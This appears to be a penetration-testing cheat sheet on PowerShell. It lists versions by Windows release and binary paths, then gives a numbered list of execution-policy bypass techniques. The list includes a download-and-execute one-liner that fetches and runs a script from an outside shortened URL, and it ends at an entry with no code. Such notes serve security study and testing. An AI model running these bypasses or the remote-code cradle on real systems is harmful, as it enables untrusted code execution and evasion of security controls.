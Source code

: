 >[!info]
>For local enumeration commands see [Internal Information Gathering (Windows)](../Web%20&%20Network%20Hacking/Internal%20information%20gathering.md#Windows)

---

# Misc

## Versions

| Version | Systems |
| --- | --- |
| 5 | Windows Server 2016 (installed by default)<br>Windows Server 2012 R2<br>Windows Server 2012<br>Windows Server 2008 R2 with Service Pack 1<br>Windows 8.1<br>Windows 7 with Service Pack 1 |
| 4 | Windows 8.1(installed by default)<br>Windows Server 2012 R2(installed by default)<br>Windows 7 with Service Pack 1<br>Windows Server 2008 R2 with Service Pack 1 |
| 3 | Windows 8 (installed by default)<br>Windows Server 2012(installed by default)<br>Windows 7 with Service Pack 1<br>Windows Server 2008 R2 with Service Pack 1/2 |

## Powershell Paths

x86 binaries:

```powershell
C:\windows\syswow64\windowspowershell\v1.0\powershell
C:\Windows\System32\WindowsPowerShell\v1.0\powershell
```

x64 binaries:

```powershell
C:\Windows\SysNative\WindowsPowerShell\v1.0\powershell
```

## Execution Policy

By default it is set to **restricted.** Main ways to bypass this policy:

```powershell
PS> Get-ExecutionPolicy
Unrestricted

# 1º Just copy and paste inside the interactive PS console
# 2º Read en Exec
Get-Content .runme.ps1 | PowerShell.exe -noprofile -

# 3º Read and Exec 2.0
Get-Content .runme.ps1 | Invoke-Expression

# 4º Use other execution policy
PowerShell.exe -ExecutionPolicy Bypass -File .runme.ps1

# 5º Change users execution policy
Set-Executionpolicy -Scope CurrentUser -ExecutionPolicy UnRestricted

# 6º Change execution policy for this session
Set-ExecutionPolicy Bypass -Scope Process

# 7º Download and execute:
powershell -nop -c "iex(New-Object Net.WebClient).DownloadString('http://bit.ly/1kEgbuH')"

# 8º Use command switch
Powershell -command "Write-Host 'My voice is my passport, verify me.'"

# 9º Use EncodeCommand
```
